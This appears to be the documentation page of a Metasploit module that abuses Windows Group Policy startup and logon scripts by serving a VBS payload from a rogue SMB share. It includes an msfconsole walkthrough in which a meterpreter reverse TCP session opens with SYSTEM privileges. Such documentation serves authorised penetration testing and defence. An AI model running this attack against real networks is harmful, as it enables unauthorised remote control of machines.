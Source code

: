 ## Vulnerable Application

This is a general-purpose module for exploiting systems with Windows Group Policy configured to load VBS startup/logon scripts from remote locations.
This module runs a SMB shared resource that will provide a payload through a VBS file. Startup scripts will be executed with SYSTEM privileges,
while logon scripts will be executed with the user privileges. The attacker still needs to redirect the target traffic to the fake SMB
share to exploit it successfully.

Please note in some cases, it will take 5 to 10 minutes to receive a session.

More information available at [Gotham Digital Science Security](https://blog.gdssecurity.com/labs/2015/1/26/badsamba-exploiting-windows-startup-scripts-using-a-maliciou.html)

## Verification Steps

  1. Start msfconsole
  2. Do: ```use modules/exploits/windows/smb/group_policy_startup```
  3. Do: ```exploit```

## Options

### FILE_NAME

  VBS File name to share (Default: random .vbs)

### FOLDER_NAME

  Folder name to share (Default: none)

### SHARE

  Share name (Default: Random)

## Scenarios

### Domain Group Policy

In this scenario, the following computers are present:

1. Windows 7 (x64, Build 7601, SP1): Victim
2. Server 2016 (x64, Version 1607, OS Build 14393.970): Domain Controller

The module sets up the SMB share and VBScript file. Out of band (outside the scope of this module or docs) a Group Policy is simply applied to the `OU` computer container.
Next, the Win 7 box grabs the payload, in this case the meterpreter reverse_tcp stager on boot, with `SYSTEM` privs because its executed as a start up script.
Theoretically, any computer in that `OU` would also execute the script on started up.

  ```
  msf > use modules/exploits/windows/smb/group_policy_startup
  msf exploit(windows/smb/group_policy_startup) > set FILE_NAME startup.vbs
    FILE_NAME => startup.vbs
  msf exploit(windows/smb/group_policy_startup) > set SHARE scripts
    SHARE => scripts
  msf exploit(windows/smb/group_policy_startup) > exploit
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] File available on \\192.168.1.3\scripts\startup.vbs...
    [*] Started service listener on 192.168.1.3:445
    [*] Server started.
    [*] Sending stage (180291 bytes) to 192.168.1.4
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:49178) at 2019-12-04 13:12:05 -0700
  msf exploit(windows/smb/group_policy_startup) > sessions 1
    [*] Starting interaction with 1...

  meterpreter > sysinfo
    Computer        : MSF-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : MSF
    Logged On Users : 1
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
